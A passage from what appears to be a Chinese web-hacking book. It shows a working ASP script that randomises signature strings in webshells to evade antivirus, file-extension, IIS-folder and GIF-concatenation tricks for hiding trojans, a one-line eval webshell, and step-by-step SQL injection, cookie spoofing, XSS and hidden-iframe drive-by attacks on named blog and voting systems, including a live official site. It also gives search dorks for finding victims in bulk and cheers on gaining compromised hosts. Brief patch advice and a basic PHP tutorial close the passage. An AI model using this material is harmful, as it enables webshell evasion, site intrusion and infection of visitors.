          Report = Report & "<tr><td>" & temp & "</td><td>Creat" & "eObject</td><td>Crea" & "teObject 函数使用了变形技术，可能是误报" & infiles & "</td><td>" & GetDateCreate(filepath) & "<br>" & GetDateModify(filepath) & "</td></tr>"
```

```vb
Sun = Sun + 1
Exit Sub


```

从这部分代码，我们可以知道，此工具采用特征码技术对文件进行特征码检查，有点类似我们的杀毒软件了。程序采用的特征码有“shell.application（和其相对应的 classid 值）”、“wscript.shell（和其相对应的 classid 值）”、“eval”、“execute”、“(vbscript|jscript|javascript).Encode”、“createobject”。除此外，程序还对使用 include 函数包含 JPG 的文件查杀。只要我们的 ASP 木马中有代码和其特征相符，则程序报毒。

- 1. A：从文件名后缀上突破。对于 2000 系统，如果你有服务器权限，可以增加应用程序映射。具体方法是：选择站点→点击属性→主目录→配置→应用程序映射→添加，按如图 7-60 所示：
图 7-60 突破文件名

在可执行文件内填入：`C:\WINNT\system32\inetsrv\asp.dll`，扩展名可随便填，比如我填入“.ttfct”，在“动作限制为”填上 GET、POST 就行了，然后点击确定、应用。现在我们把 ASP 木马后缀名改为“.ttfct”，成功解析，如图 7-61 所示。
图 7-61 解析 ttfct 后缀成功

此时我们使用那个专杀工具查杀，发现已不再报毒了。

B：对于 WINDOWS 2003 系统，利用其 IIS 特性建立 `Haha.asp` 文件夹，将我们的木马后缀改成一个比较怪的后缀，如“.sys”、“.dll”、“.ch”等等。具体方法是，建立一个 `haha.asp` 文件夹，然后把我们改了后缀的木马放入其中。使用前提：服务器是 2003 系统。如图 7-62 所示。
图 7-62 前提为 2003 服务器

- 2. 从特征码上突破。

对于 ASP 木马代码中含有 `wscript.shell`、`shell.application`、`Scripting.FileSystemObject` 和其相对应的 classid 的代码，我们可以采取这样的方法修改：如原来代码是这样：`server.createobject("shell.application")`，我们修改为：`server.createobject("she"&ttfct&"ll.application")`；类似的 `CreateObject("wscript.shell")` 可改为 `CreateObject("wscr"&good&"ipt.shell")`。由于免杀的 ASP 木马一公布，此马不久就被杀了，所以我们还是写个程序，采用随机码来对之处理。程序代码如下：

```asp
<%
```

```vb
Dim fsoX, tfile, textfile, chg1, chg2, chg3
Randomize
if trim(request("path")) = "" or trim(request("spath")) = "" then
    response.write("<script>alert('请填上内容');history.back()</script>")
end if
myfiles = server.mappath(trim(request("path")))
savepaths = server.mappath(request("spath"))
Set fso = CreateObject("Scripting.FileSystemObject")
if fso.FileExists(myfiles) = false then
    response.write("<script>alert('注意，文件不存在');history.back()</script>")
end if

set tfile = fso.OpenTextFile(myfiles,1,false)
textfile = Lcase(tfile.readall())

chg3 = "Scr" & chr(34) & chr(38) & chr(Int((Rnd*15)+65)) & chr(Int((Rnd*15)+65)) & chr(Int((Rnd*15)+65)) & chr(Int((Rnd*20)+68)) & chr(38) & chr(34) & "ipting.FileSys" & chr(34) & chr(38) & chr(Int((Rnd*15)+65)) & chr(Int((Rnd*20)+65)) & chr(Int((Rnd*15)+65)) & chr(Int((Rnd*20)+68)) & chr(38) & chr(34) & "temobject"

chg2 = "wscri" & chr(34) & chr(38) & chr(Int((Rnd*15)+65)) & chr(Int((Rnd*15)+65)) & chr(Int((Rnd*15)+65)) & chr(Int((Rnd*20)+68)) & chr(38) & chr(34) & "pt.sh" & chr(34) & chr(38) & chr(Int((Rnd*15)+65)) & chr(Int((Rnd*20)+65)) & chr(Int((Rnd*15)+65)) & chr(Int((Rnd*20)+68)) & chr(38) & chr(34) & "ell"

chg1 = "shel" & chr(34) & chr(38) & chr(Int((Rnd*15)+65)) & chr(Int((Rnd*15)+65)) & chr(Int((Rnd*15)+65)) & chr(Int((Rnd*20)+68)) & chr(38) & chr(34) & "l.app" & chr(34) & chr(38) & chr(Int((Rnd*20)+65)) & chr(Int((Rnd*15)+65)) & chr(Int((Rnd*15)+65)) & chr(Int((Rnd*20)+68)) & chr(38) & chr(34) & "lication"

if instr(textfile,"shell.application") = 0 or instr(textfile,"wscript.shell") = 0 or instr(textfile,"scripting.filesystemobject") = 0 then
    response.write("<script>alert('没有找到特征字符，可能此文件已作了处理，或加了密，请返回');history.back()</script>")
else
    textfile = replace(textfile,"shell.application",lcase(chg1))
    textfile = replace(textfile,"wscript.shell",lcase(chg2))
    textfile = replace(textfile,"scripting.filesystemobject",lcase(chg3))
    set tfile2 = fso.OpenTextFile(savepaths,2,true)
    tfile2.write textfile
    response.write("<script>alert('文件特征码已改变，可以达到一定程度的免杀效果了');history.back()</script>")
end if
tfile.close
```

```asp
tfile2.close
set tfile = nothing
set tfile2 = nothing
set fso = nothing
%>


```

这个程序使用了 replace 函数对几个特征码作了处理。由于采用了随机函数，每次生成的特征码不同，所以每个文件都有各自的特征，这样可以达到较好的免杀效果。

对于一句话木马，比如说 `<% eval request("#") %>`，我原来的想法是把 eval 中的任何一个字母作一下变换，当进行执行的时候再变回来，自己实验了很久，也写了个函数，却没有成功。如果有高手知道，还多多请指教。

## 特征码修改＋非常规免杀打造终极免杀木马

- 一：具体修改哪些地方：代码中的注释可以删除。只要能改的地方，我们都应该把它改掉，因为有些杀毒软件将之视为特征码，改掉它对我们没有坏处。还请 lcx 和 Marcos 大哥原谅哦。这里，我附上两图，如图 7-63、7-64 所示。
图 7-63 杀毒软件查杀关键字
图 7-64 杀毒软件查杀关键字

- 2. 修改：用查找—替换的功能将所有的 pageName 替换为 hf，然后将 `Const showLogin = ""` 改为 `Const showLogin = "go"`。经过这两步后，卡巴、瑞星、McAfee 都还报毒，专杀不过。

- 3. 用我们的程序对特征码进行修改。经过这一步，成功躲过了卡巴、McAfee，不过专杀和瑞星。

- 4. `<object runat="server" id="ws" scope="page" classid="clsid:72C24DD5-D70A-438B-8A42-98424B88AFB8"></object>` 等对象定义可改写。

```html
<object runat="server" id="ws" scope="page" classid="clsid:F935DC22-1CF0-11D0-ADB9-00C04FD58A0B"></object>
<object runat="server" id="fso" scope="page" classid="clsid:0D43FE01-F093-11CF-8940-00A0C9054228"></object>
<object runat="server" id="sa" scope="page" classid="clsid:13709620-C279-11CE-A49E-444553540000"></object>
```

```vb
dim mytemp
mytemp = server.mappath(".") & "\\~86.tmp"
asppath = replace(mytemp, "\\", "")


```

这样就成功躲过了瑞星，我测试过，我们的 Wscript.Shell 仍可用。只是不过专杀了。

- 5. 对代码进行 ENCODE 加密，然后保存为 ASP 文件，不过专杀。
- 6. 打开 Fireworks，新建一个 1*1 的图片，然后保存为 m.gif。
- 7. 执行 cmd，使用万能 copy 大法，执行如下指令：`copy m.gif /b +m4.asp hacker.asp`，成功躲过了专杀。

总结：到这里我们 ASP 程序中常见的漏洞就讲完了，基本上覆盖了 ASP 程序中的大部分漏洞，相信大家都能够掌握。当然也不可能面面都讲到，毕竟技术在飞速发展之中，大家要做的就是在前面的基础上不断学习、探索、发现问题，并解决问题。而在下一章节将实例分析几个完整的例子，以增加大家的实战分析经验。

**声明：** 本章中的很多内容都是来自互联网，同时有一些地方也摘抄了一些东西，这些内容的版权属于他们。同时还要感谢萍水相逢带来的非常优秀的 **ASP 木马免杀文章**。

你从本章可以学到如下几点：

- 1. ASP 系统中的 Cookie 漏洞代码分析
- 2. ASP 系统中常见的注入漏洞代码分析
- 3. ASP 系统中跨站漏洞代码的分析
- 4. ASP 系统中 `'or'='` 漏洞代码的简单分析

## 第八章 ASP整站系统的安全性分析

在前面已经给大家介绍了 ASP 的各种基础知识，同时还详细讲解了 ASP 程序各种常见的漏洞以及攻击方法，相信大家已经掌握了。最后就是要训练大家如何利用上面所学的知识来挖掘一套完整的 ASP 系统中的各种漏洞。

一套中等规模的整站系统代码量一般来说也有一万行以上，所以一拿到代码首先不要被它吓倒了，要静下心来慢慢研究，切忌浮躁。有了系统代码之后，首先就是要了解整个系统的结构，比如系统的文件名设置、哪个是首页、哪个是后台登录页面、后台数据库路径等等。接下来就是搭建这个系统的环境，当然如果你很懒的话也可以不搭建，直接用网上的网站做实验也行，不过有点风险就是。最后是要找这个系统的漏洞了。一般来说找漏洞分为三个步骤：一、黑箱测试；二、白箱测试；三、黑白结合。漏洞的发现可以分为黑箱测试和白箱测试，黑箱是在不知其程序源代码及开发流程下进行的程序测试，也称为黑盒测试；而白箱大多数是基于程序员开发或者知道其源代码已经开放的过程下进行的程序测试，也称为白盒测试。黑白结合就是这两种方法结合起来。

搭建好了系统，就先进行黑箱测试，比如测试 URL、搜索等输入框中的参数是否过滤，这个时候如果发现漏洞是最好的了；接下来就是分析代码的安全性，特别要检查一些比如 SQL 代码中的参数是否过滤等问题，如果发现了漏洞那是最好的；如果没有发现那我们也继续进行第三步，因为很多情况下就算发现了代码漏洞，也不一定可以利用，这跟很多情况有关，比如主机的配置及需要的一些条件等等。也有一些情况下就算没有发现漏洞依然可以入侵网站，比如白箱测试中我们已经知道了数据库的路径了，这个时候还可以测试一下网站是否存在默认数据库等漏洞。根据我的测试，目前还有非常多的整站存在这样的漏洞，大家可以用挖掘鸡来玩玩。所以结合黑和白来共同利用、相互配合，很多情况下会得到意想不到的结果。

前面已经教大家如何找代码漏洞了，比如寻找有参数交互的地方等等。所以代码虽多，可真正核心的代码却不多，我们只要抓住核心代码就抓住了整个系统。本章就是带领大家如何分析一个 ASP 系统中的漏洞，并加以利用，这样来增加大家的实战性，那么在以后分析代码漏洞的过程中就有更多的经验。

总之，分析系统代码首先要具备一些基础知识，这些大家已经有了；其次，就是在分析的过程中思路要清晰，不然就会在整个系统里打转而出不来。而本章最主要的目的就是训练大家一个清晰的思路，只有有了清晰的思路才能够把握整个系统。这些都是靠平时积累下来的，不是水平的问题而是经验的问题。大家有了这些经验之后就是要自己动手去实践，毕竟实践是检验真理的唯一标准。同时大家一定要学会文中的技巧，因为它们常常会让你在做事的时候事半功倍。下面就是我分析的几个完整的 ASP 系统漏洞的例子，大家要从中学到一些技巧，特别是经验上的增加。

### 8.1 SimpleBlog 的漏洞分析及利用

SimpleBlog（国外）是一个用 ASP 写的博客程序，目前主要有 2.0 和 2.3 两个版本。在国内目前几乎没有什么网站采用这套程序，但在国外却非常流行。我们可以在 Google 中输入关键字：powered by SimpleBlog 搜索该系统，得到：93,600 项符合的查询结果（如图 8-1）。虽然该程序可用性非常强，但在安全性方面做得不够好，存在以下漏洞。
图 8-1 查找系统使用的网站

#### 一、注入

由于该程序没有对网站用户名和密码进行任何加密，所以通过注入得到的密码是明文。2.0 和 2.3 两个版本同时存在注入漏洞的文件有两个。

- 1. poll_reg.asp，代码为：

```asp
<%
straID = request.QueryString("answer")
strpID = request.QueryString("pID")
strSQL = "UPDATE T_RESULTS Set icount = icount + 1 WHERE aID_FK = " & straID
'没有过滤参数，直接提交导致漏洞出现
Set MyConn = Server.CreateObject("ADODB.Connection")
MyConn.Open strConn
MyConn.Execute(strSQL)
MyConn.Close
```

- 2. comments.asp，代码为：

```asp
<%
Sub InsertComment()
bID            = request.Form("id")
strName        = request.Form("name")
......
response.Redirect("comments.asp?id=" & bID) ' 直接 POST 提交，而没有过滤，所以漏洞出现。
%>


```

这里我们拿官方网站来注入，地址为：http://blog.8pixel.net/。它的版本为 2.3，我们就对 comments.asp 进行注入，该文件的作用就是查看文章的评论及发表评论。单击网页上“comments”这个单词就可以进入这个文件了，如图 8-2 所示。
图 8-2 找到链接

在这里就用工具来猜解，在注入之前要增加一些表段和字段，增加的表段为 T_USERS，增加的字段为 uUSERNAME 和 uPASSWORD。设置好了以后我们就用啊 D 来扫，用不了多久官方网站的密码就得到了，如图 8-3 所示。
图 8-3 注入攻击得到管理员密码

而 2.0 另外还存在一个注入漏洞的文件，是 rss.asp，代码为：

```asp
response.write "<date>" & IntToDate(Rs("b_date")) & "</date>" & vbcrlf
response.write "<time>" & Rs("b_time") & "</time>" & vbcrlf
response.write "<link>" & strURL & "?view=pLink&amp;id=" & Rs("id") & "</link>" & vbcrlf
'没有过滤 id 的参数，导致漏洞出现
response.Write("<id>" & Rs("id") & "</id>")
response.write "</item>" & vbcrlf
rs.movenext


```

该文件的作用是查看博客上的内容，点击图 8-2 中的 “[link to this entry](#)” 就可以进入查看该文件的内容了。和上面一样，先将字段和表段加入到工具上，然后随便打开一个文件，用啊 D 狂扫就可得到 2.0 管理员密码，如图 8-4 所示。
图 8-4 利用 2.0 版本的注入漏洞得到管理员密码

虽然版本 2.3 并无此缺陷，但在其他两个地方却同样有漏洞。通过上面的代码可以看出这个漏洞十分明显，是比较经典的注入代码，很适合新手学注入。

#### 二、跨站

- 1. 前台跨站

当我在看 comments.asp 文件注入漏洞时，发现这个文件还有一个功能就是用户可以发表评论，这样就很可能由于过滤不严格而出现跨站漏洞。代码如下：

```asp
<%
Sub InsertComment()
bID            = request.Form("id")
strName        = request.Form("name")
strEmail = request.Form("email")
strUrl = request.Form("url")
strComment = request.Form("main")
strComment = replace(strComment, "'", "")         '过滤单引号
strComment = replace(strComment, vbCrLf, "<br>")  '过滤 vbCrLf
str_userIP = request.Form("userIP")
.............  ' 省略代码
' insert Comment */
strSQL = "INSERT INTO T_COMMENTS(c_content, c_name, c_email, c_url, c_bID_fk, ip) VALUES ('" & strComment & "','" & strName & "','" & strEmail & "','" & strUrl & "','" & bID & "','" & str_userIP & "')"  ' 将用户写的评论插入到数据库中
Set MyConn = Server.CreateObject("ADODB.Connection")
MyConn.Open strConn
MyConn.Execute(strSQL)


```

如上，虽然在评论内容上进行了单引号过滤，而对评论的 name、email、url 却没有进行任何过滤，长度也没有进行限制，直接插入到数据库中去，这就是程序的失误，而这段代码就是典型的跨站漏洞。往里面输入：`<script>alert("cmd")</script>`，如图 8-5 所示。这个前台跨站只有 2.0 才存在，在 2.3 版本中程序员已经意识到这个问题了。
图 8-5 版本 2.0 中的跨站漏洞

- 2. 后台跨站

在后台的跨站漏洞上两种版本都出现了问题，它们后台的跨站漏洞存在于编辑文件上，这个漏洞主要有 bloglist_edit.asp 和 dostuff.asp 两个文件。bloglist_edit.asp 的代码为：

```html
<td><strong>Title:</strong></td>
</tr>
<tr>
<td valign="bottom"><input name="header" type="text" id="header" style="width:90%; height:20px; font-family:Verdana, Arial, Helvetica, sans-serif; font-size:11px;" value="<%=rs("b_headline")%>">
&nbsp;  '这是编辑文章的题目
<input name="imageField" type="image" src="images/save.gif" border="0"></td>
</tr>
<tr>
  <td><strong>Content:</strong></td>
</tr>
<tr>
  <td>
<textarea name="main" id="main" style="width:98%; height:380px "><%=rs("b_content")%></textarea>  '这是编辑文章的内容
  </td>
```

dostuff.asp 的代码如下：

```asp
strHeader = request.Form("header")
strHeader = replace(strHeader, "'", "''")   '编辑文章的主题
strContent = request.Form("main")
strContent = replace(strContent, "'", "''") '编辑文章的内容
......................省略代码
strSQL = "INSERT INTO T_WEBLOG (b_headline, b_content, b_date, b_time, b_month, b_year, b_author, b_published) values ('" & strHeader & "','" & strContent & "','" & strDate & "','" & strTime & "','" & intMonth & "','" & intYear & "','" & strAuthor & "','" & intPublished & "')"
'将用户编辑的主题和内容等插入到数据库中
response.Write(strSQL)
'response.End()


```

由上可看出，就是过滤了单引号，和前台的代码差不多，在 2.3 版本中也存在这个漏洞。输入代码：`<iframe frameborder=0 width=300 height=300 scrolling=no src=http://www.baidu.com></iframe>` 来看看效果，如图 8-6 所示，把宽度和高度改为零就可以来挂马了。
图 8-6 后台挂马

#### 三、挖掘

前面已经给大家介绍了挖掘鸡的使用了，在这里就可以利用其中的知识进行挖掘。关键字我们可以使用：powered by SimpleBlog。对于查找前台跨站，目录组为：SimpleBlog 或者 blog；文件名为：comments.asp?id=（id 最好填小一点）。对于注入，目录组为：SimpleBlog 或者 blog；文件名为：`?view=plink&id=`（id 最好填小一点）。我们还可以利用管理员的懒惰进行默认数据库下载，目录组为：db 或 SimpleBlog/db 或者 blog/db；文件名为：simpleBlog.mdb。如图 8-7 所示得到了很多数据库地址，下载一个来看看，如图 8-8 所示。利用挖掘鸡，效率大大增加了吧。
图 8-7　利用挖掘码寻找系统后台
图 8-8　下载默认数据库

#### 四、修补

由于这个系统的两个版本都没有采用加密技术，直接注入得到的密码就是明文，因此对系统的危害比较大。但如果采用加密技术（如 MD5），而且管理员的密码设置得比较复杂，就大大地增强了系统的安全性。因为程序中的一些变量由于没有过滤，或者只过滤了单引号，从而导致注入和跨站。过滤了单引号，那我们在构造 SQL 语句的时候只要避开单引号，比如利用类似的代码来注入：`and 1=(select id from admin where asc(mid(username,1,1))>10)`。对于注入漏洞的防御，仅仅过滤单引号几乎是毫无用处，一定要过滤 SQL 那九条语句中的一些词语，才可以防止注入；对于跨站漏洞的修补主要有两点：

- 限制用户提交数据的长度；
- 过滤或者转换用户提交数据中的 HTML 代码。

该系统采用 ACCESS 数据库，而且不提供任何上传功能，那就更别提数据库备份了，所以没有得到 webshell，是有点遗憾。不过可以利用注入漏洞来得到管理员的密码，进而利用跨站漏洞来进行挂马。使用该系统的网站全部为国外的，所以可以得到很多国外肉鸡哦。本文没什么实际的水平，很适合刚刚入门的朋友学习，最后希望各位朋友得到很多国外肉鸡。

### 8.2 心情网络投票系统的漏洞分析

心情网络投票系统是国内目前使用最多的投票系统之一，而且很多投票系统的代码也借鉴了它。随着目前各大网站管理员安全意识的加强，要想从主站找出漏洞一般比较难，而像投票系统这种后置模块却很少被注意，利用它们我们也可以攻破整个网站。所以下面就以心情网络投票系统为例，来简单分析一下国内大多数投票系统的安全性。

#### 一、Cookies 欺骗

这个漏洞出现在 check.asp 和 welcome.asp 上，先来看看这两个文件的代码：

- 1. welcome.asp

```asp
if rs.eof then
response.write "<script>alert('用户名不存在或者密码错误！');</script>"
response.write "<script>history.back(1);</script>"
else
response.cookies("admin")=rs("admin")
response.cookies("qx")=rs("qx")
response.write "<script>location.href='step1.asp';</script>"
end if
rs.close
set rs=nothing
conn.close
set conn=nothing
```

- 2. check.asp

```asp
<%if request.cookies("admin")="" or request.cookies("qx")="" then
response.write "<script>alert('你还未登录，请登录！');</script>"
response.write "<script>location.href='index.asp';</script>"
response.end
end if%>
```

在 welcome.asp 文件中，当 admin 和 qx 验证正确的话，程序就进入 step1.asp 文件。我们再看 check.asp 文件，只要 admin 和 qx 不为空就不出现错误。这样我们可以修改自己电脑上的 Cookies，那么就可以进行 Cookies 欺骗了，从而进入后台。我们来修改 Cookies，把 admin=admin 和 qx=qx。修改后代码如下：

```ini
[MyBrowser]
Cookies=admin=admin;qx=qx;cck_lasttime=1153188298890;cck_count=0;
ASPSESSIONIDQQDAQQRR=MKDEFCCCDDFKMFMJDJDGKNKI
Address=http://www.1ht0523.com/vote/index.asp
InjectAddress=http://www.hackerdown.com/down.asp?id=39&no=1{v}
InjectCode=


```

现在用桂林老兵来进行 Cookies 欺骗，把 URL 地址的文件改为 step1.asp，这样就顺利登录了后台，如图 8-9 所示。
图 8-9　利用 Cookie 欺骗进入后台

这里可以采用 Session 来进行登录验证，从而解决 Cookies 欺骗这个漏洞。

## 二、`'or'='` 漏洞

这个漏洞出现在 welcome.asp 文件中，漏洞代码如下：

```asp
<!--#include file="conn.asp"-->
<!--#include file="md5.asp"-->
<%set rs=server.createobject("adodb.recordset")
sql="select * from admin where admin='"&request("admin")&"' and
pwd='"&md5(trim(request("pwd")))&"'"
rs.open sql,conn,3,1


```

看到没有，admin 和 pwd 都是这样 `request("admin")` 直接提交的，根本没有过滤参数，导致了经典漏洞的出现。我们在 admin 处输入：`'1'or 1=1 or '1'='1`，密码不用输入，就可以绕过它的认证体系了，如图 8-10 和图 8-11 所示。
图 8-10　输入 `1'or 1=1 or '1'='1`
图 8-11　进入后台

这个漏洞主要是没有过滤单引号而引起的，通过 Replace() 函数可以很好地解决这个问题。

#### 三、暴库漏洞

暴库这个漏洞是在无意中发现的，我们把 votedy.asp 文件前的 “/” 换成 “%5c”，提交后得到了数据库的绝对路径，如图 8-12 所示。
图 8-12　暴出网站数据库绝对路径

不过有些网站用的数据库后缀名是 asa 或 asp，还有的数据库文件中含有 # 号，我们可以把它改成 `%23`，就可以突破这个限制了。补救方法也很简单：

- 1. 在 conn.asp 文件中的数据库文件位置后面加上 `"On Error Resume Next"` 这句话。
- 2. 把 IIS 中的错误提示功能关闭。

#### 四、注入漏洞

注入漏洞很多地方都存在，不过 votedy.asp 比较明显，都没有过滤 id 参数，而是直接提交，然后查询数据库。代码如下：

```asp
<%
addr0=request.servervariables("server_name")
addr1=request.servervariables("url")
addr1=replace(addr1,"votedy.asp","")
addr="http://"&addr0&addr1
set rs=server.createobject("adodb.recordset")            ' 读取投票项目
if isnull(request("id")) or request("id")="" then
    set rs=conn.execute("select top 1 * from class order by id desc")
    vote="vote"
else
    set rs=conn.execute("select * from class where id="&request("id"))
    vote="vote"&request("id")
end if


```

上面的参数是直接提交的，导致漏洞出现。用注入工具我们可以非常轻易地得到管理员的用户名及密码，如图 8-13 所示。
图 8-13　利用工具注入攻击

管理员可以自己用正则表达式来编写一些过滤参数的函数，也可以去下载一些通用防注入程序来堵上这个漏洞。

#### 五、跨站漏洞

跨站这个漏洞出现在 step1.asp 和 savevote.asp 文件上。step1.asp 的功能是用来编写投票的标题以及一些选项。savevote.asp 是功能实现文件，但是它没有对投票标题进行过滤，从而导致漏洞出现。savevote.asp 的漏洞代码如下：

```asp
if request("id")<>"del" then
    err=0
    title=request("title")
    if title="" then
        err=1
        error=error+"标题不能为空\n"
    end if
    conn.execute("insert into class (title,style,ren,kg,overtime) values ('"&title&"','"&request("style")&"','"&request.cookies("admin")&"','"&kg&"','"&overtime&"')")
    set rs=server.createobject("adodb.recordset")
    sql="select top 1 * from class where title='"&title&"' order by id desc"
```

```vb
rs.open sql,conn,3,1
classid=rs("id")
rs.close


```

上面的 title 没有过滤，而且 title 没有对长度进行限制，其实限制了的话也可以通过调用 js 文件来突破。我们可以往里面写入代码，比如：`<script>alert("曾云好")</script>`。看看效果，如图 8-14 所示。
图 8-14　跨站攻击

这里我们可以用来挂马，那么只要参加投票的人都会中招。我们写入挂马代码，为了可见我把高度和宽度都不设为零，代码为：`<iframe frameborder=0 width=300 height=300 scrolling=no src=http://www.baidu.com></iframe>`。看看执行后的效果，如图 8-15 所示。
图 8-15　挂马

挂马的时候我们应该把高度和宽度都设置为零，并且应该在挂马代码的后面加入一些文字，这样管理员看到的只是代码后面的文字，而不知不觉已经中了木马，这样就更加具有隐蔽性。对于挂马其实也很好防御，我们只要用正则表达式把这些字符过滤了，那挂马就没戏了，需要过滤的字符有：`<>/`。

#### 六、总结

上面就是我对心情网络投票系统漏洞的简单分析，都是一些常见漏洞。在 Google 里查找投票系统我花了很多时间，最后发现这些关键字可以非常准确地找出投票系统，如图 8-16 所示，291000 项记录也够多了。关键字有：

- 1. `function touvote(){window.open`
- 2. `formvote.submit();}"`
- 3. `formvote.action=`
- 4. `document.write (vote)`
图 8-16　使用投票系统的网站

目前稍微大一点的网站都已经有了投票系统了，但是管理员往往忽略了它的安全性，很多网站的投票系统后台居然还是原始密码，就更不用谈其他安全性了。上面的这个投票系统就这样轻易地被我搞垮了，根本没有什么安全性。希望以后各位管理员要多关心网站的一些细小地方，这样才可以做到万无一失。

- 你从本章可以学到如下几点：
- 1、PHP 基础知识
- 2、PHP 中的文件及字符串操作
- 3、面向对象的 PHP
- 4、PHP 下与数据库的交互
- 5、PHP 高级技术

## 第九章 PHP 基础

在第二章介绍了 PHP 环境下的各种黑客技术，相信大家已经体验了它的乐趣。而本章开始我们就来系统性地学习 PHP 的各种知识，并在下一章讲授 PHP 代码中的各种漏洞及利用过程。虽然本章内容有点枯燥，但是大家如果认真学习了，那么在后面将可以体验到很大成就感哦。如果三心二意地学习，那后面可能就看不懂了，所以大家赶快打起精神跟着我走吧，哈哈！

### 9.1 PHP 快速入门

#### 9.1.1 什么是 PHP

PHP 是一种服务器端脚本语言，它是专门为 Web 而设计的。在一个 HTML 页面中，你可以嵌入 PHP 代码，这些代码在每次页面被访问时被执行。PHP 代码将在 Web 服务器中被解释，并且生成 HTML 或访问者看到的其他输出。

PHP 是 1994 年出现的，最初是由 Rasmus Lerdorf 一个人完成的工作。之后其他一些天才改进了这种语言，PHP 的主页是 http://www.php.net。目前非常多的网站使用 PHP，如图 9-1 显示了到 2006 年 11 月为止使用 PHP 的网站。最新的数据大家可以去 http://www.php.net/usage.php 上查看。
图 9-1　使用 PHP 的网站数目

PHP 是一个开放源代码的产品，这就意味着你可以访问它的源代码，也可以免费使用、修改并再次发布。PHP 最初只是 Personal Home Page（个人主页）的缩写，但是后来经过修改，采用了 GNU 命名惯例（GNU=Gnu’s Not Unix）。如今它是 PHP 超文本预处理程序的缩写。目前，它的最新版本是 5.2.1，这个版本的 Zend 引擎经过了完全重写，而且还实现了一些主要的语言改进。

PHP 的性能非常高，我们使用一台单独的廉价服务器就可以满足每天几百万的点击。PHP 支持多种数据库，都提供了各种数据库的内置连接，不过用得最多还是 MySQL 数据库，PHP+MySQL 堪称最好的组合，而且 MySQL 也是开源的。因为 PHP 是专门为 Web 开发而设计的，所以它提供了许多内置函数来执行有用的 Web 任务，如生成 GIF 图像、连接到 Web 服务和其他网络服务、解析 XML、发送电子邮件以及生成 PDF 文档，所有这些任务只需要几条代码就可以搞定。同时 PHP 还具有设计良好的面向对象特性和可移植性，可以在许多不同的操作系统中使用。

#### 9.1.2 在 HTML 中嵌入 PHP

任何服务器端脚本语言最常见的应用之一就是处理 HTML 表单，在前面学习 ASP 的时候大家已经知道了。下面是我写的一个简单订单表单，从而开始我们的 PHP 学习。代码如下：

```html
<html>
<body>
<form action="9-1.php" method="post">
<table border="0">
<tr bgcolor="#cccccc">
    <td width="150">商品</td>
    <td width="15">数目</td>
</tr>
<tr>
    <td>显示器</td>
    <td align="center"><input type="text" name="display" size="3" maxlength="3"></td>
</tr>
<tr>
    <td>主机</td>
    <td align="center"><input type="text" name="mainframe" size="3" maxlength="3"></td>
</tr>
<tr>
    <td>键盘</td>
    <td align="center"><input type="text" name="keyboard" size="3" maxlength="3"></td>
</tr>
<tr>
<input type="submit" value="提交">
</tr>
</table>
</form>
</body>
</html>


```

该代码的功能是提交需要购买的商品数量，这个表单的 action 设置为能够处理客户订单的 PHP 脚本名称，也就是 9-1.php 文件，运行后的结果如图 9-2 所示。
图 9-2　订单表单运行的结果

前面学习了 HTML 就知道，ACTION 属性值就是用户点击提交按钮时需要载入的 URL。我们在表单中输入的数据将按照 METHOD 属性中指定的方法发送到这个 URL，这个方法可以是 GET 或 POST。此外还要注意的是，表单域的名称——display、mainframe 和 keyboard。而在 9-1.php 脚本中，我们还将使用这些名称。

要处理上面的这个表单，我们就需要创建一个 FORM 标记的 ACTION 属性中指定的脚本，这个脚本为 9-1.php，下面就是该脚本的代码：

```html
<html>
<head>
<title>表单处理文件</title>
</head>
<body>
<h1>销售计算机</h1>
<h2>价格公道</h2>
</body>
</html>
```

大家应该也看到了，上面的代码都是 HTML。现在，我们可以开始在这些脚本中添加一些简单的 PHP 代码。我们在上面代码中的 `<h2>` 标记处，添加如下代码：

```php
<?php
    echo '<p>这是 PHP 输出的信息哦！</p>';
?>


```

保存该文件并打开表单处理文件，填写表单之后，点击“提交”按钮，那么就看到如图 9-3 这样的输出结果了。
图 9-3　传递给 PHP `echo` 语句中的文本显示在浏览器中

和 ASP 一样，在客户端我们也看不到原始的 PHP 语句，这是因为 PHP 解释器已经运行了该脚本，下面就是上面例子中运行 PHP `echo` 语句后在客户端的代码：

```html
<html>
<head>
<title>表单处理文件</title>
</head>
<body>
<h1>销售计算机</h1>
<h2>价格公道</h2>
<p>这是 PHP 输出的信息哦！</p>
</body>
</html>
```

上面就是简单给大家介绍了一下 PHP 脚本在 Web 服务器上被解释和执行的过程，和我们前面所学的 ASP 大同小异。学习了前面的知识大家应该要知道，一个 PHP 文件中是由下面五个部分组成的：

- HTML
- PHP 标记

##### PHP 语句、空格与注释

- PHP 语句
- 空格
- 注释

其中注释为可选，不一定需要。

###### （1）使用 PHP 标记

上面的例子中的 PHP 代码是以“`<?php`”为开始，“`?>`”为结束的。这类似于我们所使用的 HTML 标记，因为它们都是以小于号（`<`）为开始，大于号（`>`）为结束的。这些符号（`<?php` 和 `?>`）叫作 PHP 标记，也可以告诉 Web 服务器 PHP 代码的开始和结束。这和 ASP 中的 `<%` 和 `%>` 功能是一样的。在这两个标记之间的任何文本都会被解释成为 PHP，而此标记之外的任何文本都会被认为是常规的 HTML。PHP 标记可以隔离 PHP 代码和 HTML。

###### （2）PHP 的标记风格

PHP 标记有四种不同的风格，这里大家要熟悉一下，是分析代码所必须掌握的常识问题。

- XML 风格

```php
<?php echo '需要输出的内容'; ?>
```

这是 PHP 编程中最为常用的标记风格，它是 PHP 所推荐使用的标记风格。服务器管理员不能禁止这种风格标记，因此可以保证所有的服务器上使用这种风格都没有问题。特别是在编写不同服务器环境的应用程序时，这种风格非常重要。还有这种风格的标记还可以在 XML（可扩展置标记语言）文档中使用。

- 简短风格

```php
<? echo '需要输出的内容'; ?>
```

这种标记风格最为简单，要使用这种标记风格必须在配置文件（php.ini）中启用 `short_open_tag` 选项。虽然这种标记风格默认是启用的，但是因为它会干扰 XML 文档的声明，所以在一些情况下管理员会禁止该风格的使用。

- SCRIPT 风格

```php
<SCRIPT LANGUAGE='php'> echo '需要输出的内容'; </SCRIPT>
```

前面我们已经学了 JavaScript 和 VBScript 了，对这种声明方式应该很熟悉了。这种声明方式最长，一般很少用。

- ASP 风格

```php
<% echo '需要输出的内容'; %>
```

这种标记风格和 ASP 的声明是一样的，如果在配置设定中启用了 `asp_tags` 选项，那么就可以使用它。默认的情况下这种风格是禁止的。

###### （3）PHP 语句

通过将 PHP 语句放置在 PHP 的开始和结束标记之间，那么它就告诉了 PHP 解释器进行何种操作。在上面的例子中，我们只使用了一种类型的语句：

```php
echo '<p>这是 PHP 输出的信息哦！</p>';
```

